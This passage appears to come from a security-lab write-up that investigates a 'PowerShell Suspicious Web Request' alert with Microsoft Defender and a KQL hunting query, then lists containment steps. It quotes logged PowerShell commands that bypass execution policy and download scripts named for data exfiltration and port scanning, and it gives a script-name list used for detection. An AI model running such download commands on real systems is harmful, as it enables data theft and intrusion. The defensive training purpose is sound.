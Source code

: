 - In real life, this could happen from free software, cracked games, or malicious downloads.

(For the lab: pretend we contacted the user—they admitted installing free software at the same time.)
<br/><br/>

**Observe the different entity mappings and take notes:**<br/><br/>
- The Shawn - PowerShell Suspicious Web Request incident was triggered on 1 Device by 1 different user, but downloaded 2 different scripts with 2 different commands.
<br/><br/>
```
Entities (3)
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
 shawn-mde-test
```
<br/><br/>
<img width="2534" height="903" alt="image" src="https://github.com/user-attachments/assets/a1f3e35e-44bc-4407-b904-b3811f930e47" />

- After investigating with Defender for Endpoint, it was determined that the downloaded scripts actually did run. See the following query.

**KQL Query**

```
let TargetHostname = "shawn-mde-test"; // Replace with the name of your VM as it shows up in the logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add the name of the scripts that were downloaded
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine

```

**KQL Query Result**

<img width="1394" height="467" alt="image" src="https://github.com/user-attachments/assets/4bb3c1c0-624b-4ca9-8279-38179a808bd5" />

### 📄Containment, Eradication, and Recovery

- Isolate affected systems with Microsoft Defender for Endpoint.

- Run antimalware scans on the isolated machine.

- Remove malicious files and restore systems.

- Research each executed script and record findings.

